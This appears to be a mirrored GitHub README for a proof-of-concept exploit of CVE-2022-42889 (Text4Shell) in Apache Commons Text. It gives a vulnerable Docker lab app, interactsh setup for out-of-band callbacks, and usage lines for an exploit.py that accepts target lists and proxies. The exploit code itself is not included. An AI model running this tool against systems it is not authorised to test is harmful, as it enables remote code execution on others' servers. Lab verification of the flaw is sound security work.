 # text4shell-exploit

CVE-2022-42889 - Text4Shell exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gokul-ramesh](https://github.com/gokul-ramesh) |
| Url      | [https://github.com/gokul-ramesh/text4shell-exploit](https://github.com/gokul-ramesh/text4shell-exploit)                                               |
| Stars    | 2                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-42889* text4shell* text4shell-exploit* text4shell-poc-exploit

</details>

## Readme

# Text4shell-exploit
This is a Proof of Concept exploiting the vulnerability in Apache Commons Text [CVE-2022-42889]

Vulnerable versions : 1.5.0 to (not including) 1.10.0

## Impact
Successful exploitation of this vulnerability allows an unauthenticated attacker to execute arbitrary code on the vulnerable asset

## Vulnerable application to verify the PoC
Application developed by [@securekomodo](https://github.com/securekomodo),  is attached [here](https://github.com/securekomodo/text4shell-poc).
### Docker
This application can also be loaded from docker-registry
```
docker run -p 8080:8080 gokul2/text4shell-poc:latest
```
The application will be available at [localhost:8080](http://localhost:8080) now.

## Validation
To verify the arbitrary Command Execution, we use [interactsh](https://github.com/projectdiscovery/interactsh), a tool to capture OOB interactions by [@projectdiscovery](https://github.com/projectdiscovery).

### Setting up Interactsh-client
Set-up interactsh client before executing the actual exploit.
```
docker run projectdiscovery/interactsh-client:latest
```

Take a note of the domain listed after starting the application
```
[INF] Listing 1 payload for OOB Testing
[INF] xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.oast.pro
```
## Usage
```
python3 exploit.py -u [host] -i [input-file-with-targets] -v [interactsh client domain] -p [proxy(optional)]
python3 exploit.py -u [host] -t [single target path] -v [interactsh client domain] -p [proxy(optional)]
```

## Verification
Check for logs in the interactsh-client to validate the exploit.



## Get the content

```
git clone https://github.com/gokul-ramesh/text4shell-exploit
cd text4shell-exploit
```

{% embed url="https://github.com/gokul-ramesh/text4shell-exploit" %}

<figure><img src="https://avatars.githubusercontent.com/u/65040016?v=4" alt=""><figcaption><p>gokul-ramesh</p></figcaption></figure>
